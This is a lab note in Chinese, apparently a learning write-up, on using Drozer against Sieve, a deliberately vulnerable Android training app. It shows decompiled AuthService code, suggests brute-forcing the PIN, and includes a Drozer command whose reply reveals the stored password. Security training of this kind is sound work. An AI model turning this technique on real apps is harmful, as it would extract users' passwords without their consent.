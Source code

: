 ```yaml
---
title: Test Sieve - services exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


# Test Sieve - services exported
<!-- more -->
1. 列出exported services有哪些
    ```bash
    dz> run app.service.info -a com.mwr.example.sieve
    Attempting to run shell module
    Package: com.mwr.example.sieve
      com.mwr.example.sieve.AuthService
        Permission: null
      com.mwr.example.sieve.CryptoService
        Permission: null
    ```
2. 逆向
    從以上可以知道有兩個service是被export的，這樣的話就可以逆一下判斷可以送出什麼東西以及可能的漏洞在哪，按照教學的說明我直接看==AuthService==這個service，
    在`com.mwr.example.sieve.AuthService`中的其中一段就是有問題的地方:
    ```java
    public class AuthService extends Service {
        ...
        private final class MessageHandler extends Handler {
            ...
            public void handleMessage(Message msg) {
                ...
                switch (msg.what) {
                    case 4:
                        ...
                    case AuthService.MSG_CHECK /* 2354 */:
                        if (msg.arg1 == AuthService.TYPE_KEY) {
                            responseCode3 = 42;
                            String recievedString = returnBundle.getString("com.mwr.example.sieve.PASSWORD");
                            if (AuthService.this.verifyKey(recievedString)) {
                                AuthService.this.showNotification();
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else if (msg.arg1 == AuthService.TYPE_PIN) {
                            responseCode3 = 41;
                            String recievedString2 = returnBundle.getString("com.mwr.example.sieve.PIN");
                            if (AuthService.this.verifyPin(recievedString2)) {
                                returnBundle = new Bundle();
                                returnBundle.putString("com.mwr.example.sieve.PASSWORD", AuthService.this.getKey());
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else {
                            sendUnrecognisedMessage();
                            return;
                        }
                        sendResponseMessage(5, responseCode3, returnVal2, returnBundle);
                        return;
                    ...

    ```
    首先在msg.what=2354且msg.arg1=AuthService.TYPE_PIN的地方，若程式讀取到的`com.mwr.example.sieve.PIN`的value(也就是PIN Code)，經過verifyPin這個function比對過後一致，則他會return一個bundle，內涵`com.mwr.example.sieve.PASSWORD`以及我們之前設定的password，並且回傳response message給我們
    →[5, 41, 0, {com.mwr.example.sieve.PASSWORD:\<password\>}]
    而這個問題在哪裡呢?經過前期的確認以及逆向，我們可以寫個script爆破，不斷送出一些pin code給這個service，則因為大多時候PIN Code的複雜度比較低，所以總有一天可以得到使用者的密碼了
3. 和service互動
    從下面的結果來看，一開始設定的密碼為==123456acitseccom==
    ```bash
    dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 1 --extra string com.mwr.example.sieve.PIN <User PIN> --bundle-as-obj
    Attempting to run shell module
    Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
      what: 5
      arg1: 41
      arg2: 0
      Extras
        com.mwr.example.sieve.PASSWORD (String) : 123456acitseccom
    ```